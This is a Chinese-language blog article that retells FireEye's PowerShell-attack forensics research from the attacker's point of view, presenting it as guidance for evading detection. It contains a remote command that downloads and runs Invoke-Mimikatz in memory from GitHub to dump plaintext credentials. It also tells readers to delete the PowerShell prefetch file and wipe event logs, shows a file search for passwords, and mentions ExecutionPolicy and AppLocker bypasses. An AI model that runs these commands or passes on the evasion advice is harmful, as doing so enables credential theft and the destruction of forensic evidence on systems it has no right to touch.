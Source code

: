 # powershell各种反弹姿势以及取证（二）

0x00 简介
=====

这篇主要是取证的，如果我以后技术好了，也会写写powershell在内网渗透中的实战应用，本文所有的内容基本翻译自fireEyE的`<<Investigating Powershell Attack>>`,我英文不好，有好多地方都看不懂他文章里写的，我磕磕碰碰的看完了这篇文章。有不对的地方，还请小伙伴们补充。

我们都知道，从`windows 7 sp1`和`windows server 2008 R2`开始，就已经默认安装了powershell(2.0版本)，到了`windows Server 2012 R2`和`Window 8.1`就是`powershell 4.0`了。现在用powershell编写的攻击框架也很成熟了，像上文书说的各种协议反弹的SHELL（nishang）；通过`dll loading`技术不写硬盘的，能远程dump登录账号明文的`Mimikatz（PowerSploit）`；以及在`ShmooCon 2013`安全会议上`Chris Campbell`演示的`Powershell Botnet`；还有各种搞windows域内网环境的powerview等；`SET/METASPLOIT`也开始支持powershell版的payloads。我们作为攻击者，也要熟悉现在针对powershell的取证技术，预防自己“艰难进来，轻松被T，却没带走一片云彩”。

原文文章分别从注册表，prefetch,网络流量，内存，日志，自启动这几方面来做取证的。

0x01 注册表：
=====

默认情况下，除了WinServer 2012R2 会设置`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell的ExecutionPolicy`项为RemoteSigned外，其他的windows系统都会设置为Restricted,有的攻击者为了运行powershell脚本方便，会设置此项为ByPass,但是这种情况并不多见，因为更多的情况是，攻击者使用-ExecuteionPolicy Bypass选项绕过执行策略限制。

0x02 Prefetch:
=====

Prefetch本意是为了增强系统的性能的，让应用程序下次载入的时候，节省时间。默认路径在`%systemroot%\prefetch`。取证人员常常会通过这些*.PF文件，获取程序最后运行时间，程序访问的文件列表等信息。取证人员有可能通过查看POWERSHELL.EXE-59FC8F3D.pf获取到你运行的攻击PS脚本信息。我这里用的[Prefetch Parser v1.4](http://redwolfcomputerforensics.com/downloads/parse_prefetch_info_v1.4.zip)来查看的，

如图

![enter image description here](http://drops.javaweb.org/uploads/images/118191573b7ec0093fae5c8d1ca84f1f48d9e35a.jpg)

所以每次我们用完powershell，记得`del %systemroot%\prefetch\POWERSHELL.EXE-59FC8F3D.pf`

0x03 网络流量：
=====

攻击者做内网渗透时，思路通常是先获取了工作组的administrator权限，然后渗透配置不严格的域环境，开启powershell的remoting功能，powershell 2.0的Remoting默认会走`5985(HTTP)`和`5986(HTTPS)`端口，文章里说，主要是监控内网<->内网，DMZ<->内网,VPN<->内网的异常数据流，建模识别出攻击者的非法访问，我想这里能做的，还是要熟悉内网环境，在有正常业务流的内网使用Remoting功能，其他办法我也没想到。

0x04 内存：
=====

论文作者主要是说可以用`Volatility`框架分析`wsmprovhost.exe`进程，能够在内存空间看到XML格式的信息。比如这里他使用`PSSesion`远程交互式SHELL执行了`“echo "helloword" > c:\text.txt”,`然后就可以在`wsmprovhost.exe`的进程里看到信息，如图：

![enter image description here](http://drops.javaweb.org/uploads/images/226b8dfe2ebcb531988839db2f768f50ed86e3db.jpg)

但是这个方法随着远程会话的中止，也将不再有用，要想成功实现取证，需要攻击者正在操作。所以我感觉这个对我们的威胁不是很大。如果开启了winrm，也有可能在`svchost.exe`的进程里看到信息。他这里用的是`Invoke-Mimikatz`做的演示，远程通过下载在内存里执行，DUMP明文密码，不写硬盘，这个渗透技巧实战的时候很有用，命令如下：

```
Invoke-Command -Computername 192.168.114.133 {iex((New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')); Invoke-Mimikatz -DumpCreds}

```

如下是他在svchost.exe进程内存里抓到的信息

![enter image description here](http://drops.javaweb.org/uploads/images/74f823167a5b527f419d52d5391aaed7c75fc463.jpg)

0x05 日志：
=====

Powershell 2.0的默认日志功能还不是很强，powershell 3.0后有所增强，不论是你本地还是通过Remoting执行powershell脚本，都会在下面3个文件里写入日志`%systemroot%\System32\winevt\`

```
windows powershell.evtx

```

每次powershell开始执行`EID 400`或者结束`EID 403`的时候，都会记录。里面的HostName项如果是`ConsoleHost`说明是从本地执行的，反之，是对方的机器名

```
Microsoft-Windows-PowerShell%4Operational.evtx

```

`Microsoft-Windows-power-Shell%4Analytic.etl`[我机器上没有找到这个文件]

如果通过WINRM开启了remoting功能，还会有下面2个日志：

```
Microsoft-Windows-WinRM%4Operational.evtx

```

EID 6会记录remoting的客户端地址信息，在这里可能看到是谁连过来的

```
Microsoft-Windows-WinRM%4Analytic.etl

```

`EID 32850`会记录`remoting`客户端连接过来使用的账号信息`EID 32867/32868`里面有可能会看到当`Invoke-Command`执行命令的时候的细节，如图

![enter image description here](http://drops.javaweb.org/uploads/images/4f7f7c5db316777b743c046f7039261764465352.jpg)

另外随着Microsoft APPLocker的引用，管理员能够对powershell脚本进行更进一步的验证，比如允许哪个PS脚本运行，哪个不允许，甚至禁止掉计算机上全部PS脚本的执行权限等操作，但是这些对我们来说都有已知的技术能绕过，我下回书再说。`AppLocker`功能启用后，`EID 8005`和`EID 8006`会记录认证信息的日志。

作者也提到可以通过`%windir%\system32\WindowsPowerShell\v1.0\profile.ps1`设置全局的profile,来增加额外的日志记录，他这里说可以用-NoProfile来绕过，上文书我实践过，发现是不可以的，参考上文，这里不多提了。

Powershell 3.0引入了`Module Logging`的能力，可以通过组策略开启`（Computer Configuration → Administrative Templates →Windows Components →Windows PowerShell →Turn on Module Logging）`，开启后，可以在EID 4103里看到ps脚本执行后的结果，比如我执行

```
Get-ChildItem c:\temp -Filter *.txt -Recurse | Select-String password

```

意思是搜索`C:\`下所有TXT里包含password的文件，可以在`EID 4103`里看到返回结果，如图

![enter image description here](http://drops.javaweb.org/uploads/images/036889981005c200f3de7dbf4cec506e05506d4f.jpg)

甚至Invoke-Mimikatz执行的结果也会记录，如图

![enter image description here](http://drops.javaweb.org/uploads/images/1e66670bf5167dcb25f57d4fde39b95e29e09040.jpg)

再次提醒我们，该删日志，一定要删，外面应该有能删指定日志的工具了，不过我没见到，有的发我一份。

0x06 自启动：
=====

Powershell经常通过注册表，开始菜单，或者计划任务来实现自启动的目的，通常用sysinternals的autorun就能找到了。另外`C:\Users\<USERNAME>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1`可以达到和`C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1`一样的效果。

**_文章参考：_**

https://www.blackhat.com/docs/us-14/materials/us-14-Kazanciyan-Investigating-Powershell-Attacks-WP.pdf

https://www.defcon.org/images/defcon-22/dc-22-presentations/Kazanciyan-Hastings/DEFCON-22-Ryan-Kazanciyan-Matt-Hastings-Investigating-Powershell-Attacks.pdf